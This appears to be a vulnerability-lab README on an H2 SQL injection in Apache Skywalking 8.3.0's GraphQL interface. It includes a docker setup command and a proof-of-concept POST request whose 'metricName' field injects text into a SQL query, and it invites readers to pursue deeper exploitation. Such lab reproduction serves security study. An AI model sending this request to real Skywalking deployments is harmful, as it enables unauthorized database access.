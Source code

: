 # Apache Skywalking 8.3.0 SQL Injection Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Application performance monitor tool for distributed systems, especially designed for microservices, cloud native and container-based (Docker, Kubernetes, Mesos) architectures.

In GraphQL interfaces of Apache Skywalking 8.3.0 and previous, there is a H2 Database SQL injection vulnerability.

Reference link:

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## Vulnerability environment

Execute the following command to start an Apache Skywalking 8.3.0:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to view the Skywalking page.

## POC

I use GraphiQL's desktop app to send the following GraphQL query:

![](1.png)

It can be seen that the SQL statement has raised error, and the value of the `metricName` parameter has been injected ​​after `from`.

The HTTP request of this GraphQL query is:

```
POST /graphql HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 336

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

For more in-depth exploit, you can research by yourself, and welcome to submit PR to us.

